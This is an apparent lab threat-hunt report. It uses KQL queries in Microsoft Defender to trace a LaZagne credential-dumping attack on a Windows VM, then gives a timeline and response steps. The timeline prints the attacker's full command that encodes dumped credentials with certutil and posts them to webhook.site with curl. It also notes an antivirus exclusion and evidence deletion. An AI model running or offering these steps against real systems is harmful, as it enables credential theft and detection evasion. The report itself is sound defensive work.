







# **Threat Hunt Report: Unauthorized Credential Dumping with LaZagne**



- [Scenario Creation](https://github.com/4le26x/threat-hunting-scenario-LaZagne/blob/main/threat-hunting-scenario-Lagzane-event-creation.md)


## **Scenario Creation**
### **Platforms and Languages Leveraged**
- **Operating System:** Windows 10 Virtual Machines (Microsoft Azure)
- **EDR Platform:** Microsoft Defender for Endpoint
- **Query Language:** Kusto Query Language (KQL)
- **Threat Actor Tool:** LaZagne

## **Scenario**
Security analysts detected a series of failed login attempts, followed by a successful login using an admin account on a system where the user did not typically have such access. This raised concerns about potential credential theft, leading the SOC team to investigate credential dumping techniques.

The goal of this threat hunt is to **detect unauthorized credential dumping activity** using **LaZagne**, a known tool that extracts stored credentials from web browsers, Windows Credential Manager, email clients, Wi-Fi networks, and local databases.

## **High-Level LaZagne-Related IoC Discovery Plan**
1. **Check `DeviceFileEvents`** for LaZagne download and execution.
2. **Check `DeviceProcessEvents`** for LaZagne execution and command-line parameters.
3. **Check `DeviceNetworkEvents`** for data exfiltration attempts.

---

## **Steps Taken**

### **1. Searched the DeviceFileEvents Table**
- **Goal:** Identify any instance where LaZagne was downloaded or copied within the system.
- **Findings:** The user `attacker` downloaded a **LaZagne executable** at `2025-02-20T19:05:38.2751686Z`

#### **Query used to locate events:**
```kusto
DeviceFileEvents  
| where DeviceName == "aph-threat-hunt"  
| where InitiatingProcessAccountName == "labuser"  
| where FileName has "lazagne.exe"  
| where Timestamp >= datetime(2025-02-20T19:05:38.2751686Z)  
| order by Timestamp desc  
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, SHA256, Account = InitiatingProcessAccountName
```



### **2. Searched for antivirus exception**


- **Goal:** Detect any attempts to bypass antivirus detection by adding exclusion paths.
- **Findings:** The attacker **excluded the `Downloads` folder** from **Defender scans** at `2025-02-20T19:08:17.5948715Z`.

```kusto
DeviceEvents
| where DeviceName == "aph-threat-hunt"
| where AdditionalFields contains "ExclusionPath"
| project  Timestamp, InitiatingProcessAccountName,DeviceName, AdditionalFields
| order by Timestamp desc
```



### **. Searched the DeviceProcessEvents Table for LaZagne Execution**

- **Goal:** Identify the execution of LaZagne.
- **Findings:** At `2025-02-20T19:08:22.5384068Z`, the user executed LaZagne with the `all` argument to extract credentials.

#### **Query used to locate events:**

```kusto
DeviceProcessEvents   
| where DeviceName == "aph-threat-hunt"  
| where ProcessCommandLine contains "lazagne.exe"   
| project Timestamp, DeviceName, AccountName, ActionType, FileName, FolderPath, SHA256, ProcessCommandLine
```




### **4. Searched the DeviceProcessEvents Table for Data Exfiltration via certutil.exe and curl.exe**

- **Goal:** Detect the exfiltration of dumped credentials using commonly abused tools.
- **Findings:** The attacker used **certutil.exe** and **curl.exe** to encode and send credentials to an external webhook at `2025-02-20T19:10:04.5440702Z`.

#### **Query used to locate events:**

```kusto
DeviceProcessEvents
| where DeviceName == "aph-threat-hunt"
| where ProcessCommandLine has_any ("certutil","certutil.exe", "curl.exe")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine

```




### **. Detecting Data Exfiltration via `curl.exe` or `certutil.exe`**


- **Goal:** Verify if the compromised system established an **outbound connection** to an attacker-controlled server.
- **Findings:** The system **connected to `webhook.site`** via **port 443** at `2025-02-20T19:10:05.8937553Z'.

#### **Query used to locate events:**

```kusto
DeviceNetworkEvents
| where DeviceName == "aph-threat-hunt"
| where InitiatingProcessFileName in ("curl.exe", "certutil.exe")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessFileName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc
```




### **5. Searched the DeviceFileEvents Table for Deletion of Evidence**

- **Goal:** Detect attempts to cover tracks by deleting files.
- **Findings:** The attacker deleted the LaZagne executable and credential dump file at `2025-02-20T19:11:37.9798697Z`.

#### **Query used to locate events:**


```kusto
DeviceEvents
| where DeviceName == "aph-threat-hunt"
| where ActionType == "PowerShellCommand"
| where Timestamp >= datetime(2025-02-20T19:11:37.9798697Z)  
| project  Timestamp, InitiatingProcessAccountName,DeviceName, AdditionalFields
| order by Timestamp desc
```



-------------

## **Chronological Event Timeline**


|**Step**|**Timestamp**|**Event**|**Details**|
|---|---|---|---|
|**1️⃣ LaZagne Downloaded**|`2025-02-20T19:05:38.2751686Z`|**The attacker downloaded `lazagne.exe`**|File stored in `C:\Users\labuser\Downloads\LaZagne.exe`|
|**2️⃣ Antivirus Exclusion Added**|`2025-02-20T19:08:17.5948715Z`|**The attacker excluded `Downloads` from Defender scans**|Exclusion added via PowerShell to **bypass AV detection**|
|**3️⃣ LaZagne Executed**|`2025-02-20T19:08:22.5384068Z`|**The attacker executed LaZagne** to extract credentials|Command: `lazagne.exe all`|
|**4️⃣ Credential Dump File Created**|`2025-02-20T19:08:35.4523168Z`|**Dumped credentials were stored in `creds_dump.txt`**|File located in `C:\Users\Public\creds_dump.txt`|
|**5️⃣ Data Exfiltration Initiated**|`2025-02-20T19:10:04.5440702Z`|**The attacker used `certutil.exe` and `curl.exe` to encode and exfiltrate credentials**|`certutil -encode creds_dump.txt encoded.txt && curl -X POST --data-binary "@encoded.txt" webhook.site`|
|**6️⃣ External Connection Established**|`2025-02-20T19:10:05.8937553Z`|**System connected to an external webhook (`webhook.site`)**|Remote **IP address accessed via port 443**|
|**7️⃣ Evidence Deletion - LaZagne and Credential Dump**|`2025-02-20T19:11:37.9798697Z`|**The attacker deleted `lazagne.exe`, `creds_dump.txt`, and `encoded.txt`**|PowerShell command `Remove-Item` used|


-----------------------


## **Summary**

The **user `labuser` on the `aph-threat-hunt` device** downloaded and executed **LaZagne** to extract stored credentials. After execution, the extracted credentials were **saved in `creds_dump.txt`** and later **encoded using `certutil.exe`**. The attacker then **exfiltrated the credentials** to an external **webhook server (`webhook.site`)** via **`curl.exe`**.

To **evade detection**, the attacker:

- **Added an antivirus exclusion** to the Defender policy.
- **Deleted evidence**, including the LaZagne binary, the credential dump file, and the encoded credentials.

This confirms **unauthorized credential dumping, antivirus evasion, and external data exfiltration**, requiring **immediate remediation and further investigation**.


----------------

## **Response Taken**

-  **LaZagne activity was confirmed** on the compromised system `aph-threat-hunt`.  
-  **The compromised endpoint was isolated** to prevent further data leakage.  
-  **Incident response teams reviewed all exposed credentials**, and affected accounts were **reset**.  
-  **Security teams updated security policies** to block the unauthorized use of `certutil.exe` and `curl.exe`.  
-  **SOC team alerted management**, and the attacker's **account was suspended pending further investigation**.  
-  **Endpoint Detection and Response (EDR) rules** were deployed to **monitor and detect similar credential dumping attempts**.

---

## **Created By**

- **Author Name:** Alejandro Perez Hernandez
- **Author Contact:** [LinkedIn](https://www.linkedin.com/in/alejandro-perez-hernandez-28158a120/)
- **Date:** February 25, 2025

---

## **Additional Notes**

- **Implement endpoint monitoring policies** to detect credential dumping tools.
- **Block suspicious PowerShell and certutil.exe executions** using Group Policy or Defender ATP.

---

## **Revision History**

|Version|Changes|Date|Modified By|
|---|---|---|---|
|1.0|Initial draft|February 25, 2025|Alejandro Perez Hernandez|
